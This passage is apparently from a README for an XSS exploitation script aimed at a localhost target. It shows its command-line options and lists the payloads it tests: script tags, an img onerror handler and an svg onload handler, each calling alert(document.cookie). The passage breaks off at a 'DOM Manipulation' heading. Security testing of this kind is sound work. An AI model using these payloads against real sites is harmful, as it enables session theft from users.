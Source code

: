 ### 2. Run Basic Exploitation

```bash
python3 xss_exploit.py
```

### 3. Advanced Usage Options

```bash
# Run with custom target URL
python3 xss_exploit.py --target http://localhost:8080/

# Run in headless mode (no browser window)
python3 xss_exploit.py --headless

# Enable verbose logging
python3 xss_exploit.py --verbose

# Combine options
python3 xss_exploit.py --headless --verbose
```

## Payload Types Tested

### 1. **Direct Script Injection**

```javascript
alert(document.cookie)
```
Tests the direct script element creation vulnerability.

### 2. **HTML Script Tag Injection**

```html
<script>alert(document.cookie)</script>
```
Tests innerHTML-based script injection.

### 3. **Event Handler Exploitation**

```html
<img src=x onerror=alert(document.cookie)>
```
Tests image error event handler injection.

### 4. **SVG-based Injection**

```html
<svg onload=alert(document.cookie)>
```
Tests SVG element event handler exploitation.

### 5. **DOM Manipulation**
